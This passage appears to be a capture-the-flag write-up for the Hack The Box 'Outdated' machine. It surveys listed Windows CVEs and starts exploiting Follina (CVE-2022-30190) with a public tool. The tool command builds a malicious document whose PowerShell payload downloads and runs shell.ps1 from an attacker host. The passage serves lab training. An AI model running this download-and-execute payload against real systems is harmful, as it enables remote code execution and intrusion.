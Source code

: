 There's no clue apparently. Let's open the pdf to see what's written.

![](attachments/outdated_1.png)

It's an announcement to IT Staff regarding vulnerabilities found recently.
Also there seems to be an email `itsupport@outdated.htb` which might be useful with smtp.

Plus, let's do research on the listed vulnerabilities.

First, `CVE-2022-30190` is RCE vulnerabilities observed in `Microsoft Windows Support Diagnostic Tool(MSDT)`.
https://www.hackthebox.com/blog/cve-2022-30190-follina-explained
Second, `CVE-2022-30138` is RCE vulnerability happening on `Print Spooler` and related with Privilege Escalation.
Third, `CVE-2022-30129` is RCE vulnerability happening on `Visual Studio Code`.
Forth, `CVE-2022-29130` is related with `LDAP` service.
Lastly, `CVE-2022-29110` is related with `Microsoft Excel`.

# Shell as `btables`

### Exploiting CVE-2022-30190

CVE-2022-30190 is critical RCE vulnerability that once the target system's user opens a link, the msdt protocol allows the RCE commands.

I'm using the following public exploit;
<https://github.com/chvancooten/follina.py/tree/main>

```bash
┌──(kali㉿kali)-[~/htb/follina.py]
└─$ python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/shell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```
